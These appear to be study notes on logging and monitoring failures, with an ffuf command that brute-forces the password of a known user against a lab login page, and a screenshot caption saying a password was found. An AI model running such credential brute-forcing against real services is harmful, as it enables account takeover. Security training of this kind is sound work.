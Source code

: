 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1497124401559-3e75ec2ed794?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxiYXRtYW58ZW58MHx8fHwxNzA5NzA1MDMxfDA&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 🦄 Logging & Monitoring Failures







<mark style="color:red;">Logging</mark>

<mark style="background-color:red;">Storing events , Failures ,or suspicious activity in some form that we can call upon later</mark>



we will try Dictonary attack , we already know the username -that is tom --- we will bruteforce the password :&#x20;

<mark style="background-color:orange;">ffuf -w /usr/share/dirb/wordlists/common.txt -u https://hospital.local/patients/login  -X POST -H "Content-Type:  application/x-www-form-urlencoded"  -d "username=tom\&password=FUZZ"  -fc 200</mark>

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

&#x20;&#x20;

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption><p>we got a password</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Handlers

How are we going to store the log ?

What format is the log going to be in?

Are we going to rotate it?
